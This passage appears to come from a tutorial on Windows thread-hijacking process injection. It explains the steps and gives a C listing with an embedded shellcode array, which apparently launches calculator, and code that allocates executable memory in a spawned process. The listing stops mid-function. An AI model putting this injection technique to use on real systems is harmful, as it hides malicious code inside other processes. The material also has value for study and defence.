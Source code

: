 Once we have our Process and Thread handles from CreateDummyProcess(), we can allocate a remote buffer and copy our shellcode to it.

After our shellcodes been copied to our victim process we grab the thread context and assign the buffer address to the `Rip` register before callin `SetThreadContext` and `ResumeThread`.

`WaitForSingleObject` sets our thread into an alertable state. This prevents the thread from prematurely closing.

```c
#include <stdio.h>
#include <wchar.h>
#include <windows.h>


unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};


int wmain() {

    HANDLE hProcess = NULL;
    HANDLE hThread = NULL;
    DWORD dProcessId, dThreadId = 0;

    LPVOID lpRemoteBuffer = NULL;

    CONTEXT lpThreadContext;

    if (!CreateDummyProcess(&hProcess, &hThread, &dProcessId, &dThreadId)) {
        wprintf("Failed to Create Dummy Process %d\n");
        return -1;
    }

    wprintf(L"Created Process: %d\n", dProcessId);

    // Allocate Remote Buffer in Dummy Process
    lpRemoteBuffer = VirtualAllocEx(hProcess, 0, sizeof(Payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpRemoteBuffer == NULL) {
        wprintf(L"Failed to Allocate Remote Buffer %d\n", GetLastError());
        return -1;
```